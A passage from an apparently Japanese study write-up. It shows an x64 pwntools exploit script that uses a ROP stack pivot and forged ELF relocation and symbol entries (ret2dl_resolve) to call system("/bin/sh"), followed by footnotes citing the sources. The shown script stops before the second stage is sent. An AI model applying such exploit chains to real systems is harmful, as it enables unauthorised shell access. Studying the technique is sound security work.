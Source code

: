 ```python: exploit.py

assert(args.OFFSET)

io = start()

# 1st stage
off = b'a' * int(args.OFFSET, 10)
base_stage = 0x404700 
plt_read = elf.plt['read']

# read(0, base_stage, 200)
rop = ROP(binfile)
rop.raw(pack(rop.rdi.address))
rop.raw(pack(0))
rop.raw(pack(rop.rsi.address))
rop.raw(pack(base_stage))
rop.raw(pack(rop.rdx.address))
rop.raw(pack(200))
rop.raw(pack(plt_read))

# stack pivot
rop.raw(pack(rop.rbp.address))
rop.raw(pack(base_stage))
rop.raw(rop.find_gadget(['leave', 'ret']).address)

payload = off + rop.chain()

io.send(pack(len(payload)))
io.send(payload)
io.clean()

# 2nd stage
r_offset = 0x404020
addr_reloc = base_stage + 40
align_reloc = 0x18 - ((addr_reloc - elf.get_section_by_name('.rela.plt').header.sh_addr) % 0x18)
addr_reloc += align_reloc
reloc_offset = int((addr_reloc - elf.get_section_by_name('.rela.plt').header.sh_addr) / 0x18)
addr_dynsym = addr_reloc + 0x18
align_dynsym = 0x18 - ((addr_dynsym - elf.get_section_by_name('.dynsym').header.sh_addr) % 0x18)
addr_dynsym += align_dynsym
index_dynsym = int((addr_dynsym -  elf.get_section_by_name('.dynsym').header.sh_addr) / 0x18)
r_info = index_dynsym << 32 | 0x7
addr_dynstr = addr_dynsym + 0x18
st_name = addr_dynstr - elf.get_section_by_name('.dynstr').header.sh_addr
addr_cmd = addr_dynstr + 7
plt_start = elf.get_section_by_name('.plt').header.sh_addr

# system("/bin/sh")
rop = ROP(binfile)
rop.raw(pack(0))
rop.raw(pack(rop.rdi.address))
rop.raw(pack(addr_cmd))
rop.raw(pack(plt_start))
rop.raw(pack(reloc_offset)) # 直接relocationさせてみる

payload = rop.chain()

payload += b'a' * align_reloc
payload += pack(r_offset) # ELF64_Rela
payload += pack(r_info)
payload += pack(0)
payload += b'a' * align_dynsym
payload += pack(st_name, word_size = '32') # ELF64_Sym
```

[^1]: ももいろテクノロジー. "x64でROP stager + Return-to-dl-resolveによるASLR+DEP回避をやってみる". https://inaz2.hatenablog.com/entry/2014/07/27/205322 ,(参照 2022年12月26日) 
[^2]: 坂井 弘亮. リンカ・ローダ実践開発テクニック. CQ出版株式会社, 2020
[^3]: https://elixir.bootlin.com/glibc/glibc-2.31/source/elf/dl-runtime.c#L59
[^4]: D3v17. "Ret2dl_resolve x64: Exploiting Dynamic Linking Procedure In x64 ELF Binaries". https://syst3mfailure.io/ret2dl_resolve ,(参照 2023年1月5日)
